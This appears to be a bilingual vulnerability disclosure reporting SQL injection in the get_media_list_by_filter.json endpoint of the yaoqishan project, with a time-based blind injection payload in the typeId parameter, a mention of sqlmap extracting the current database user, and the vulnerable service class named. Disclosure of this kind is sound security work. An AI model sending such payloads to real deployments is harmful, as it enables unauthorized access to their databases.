 SQL injection vulnerability exists in yaoqishan master

yaoqishan系统get_media_list_by_filter.json接口存在SQL注入

The get_media_list_by_filter.json interface of the yaoqishan has SQL injection vulnerability.

github: https://github.com/user-xiangpeng/yaoqishan

Affected version: master

releases：https://github.com/user-xiangpeng/yaoqishan/archive/refs/heads/master.zip

Payload:
```
 http://192.168.8.136:8080/api/get_media_list_by_filter.json?typeId=1' AND (SELECT 7689 FROM (SELECT(SLEEP(5)))sgUi) AND 'CwMf'='CwMf&filterArr=1&pageNum=1&pageSize=100
```
Use sqlmap for verification, and retrieve all the current_user.
使用sqlmap验证，跑出当前用户：

![image](https://github.com/user-attachments/assets/a8388211-4342-4d07-a778-2e91cf18b68f)

The getMediaLisByFilter interface in ApiAction calls the listByFilter method from MediaInfoService to query sysFile.

![image](https://github.com/user-attachments/assets/4269b215-5013-4655-afa0-3321e4d60cc8)

![image](https://github.com/user-attachments/assets/ad1b4af0-0c1d-4ccd-952b-bf547e262309)

cn/javaex/yaoqishan/service/media_info/MediaInfoService.java

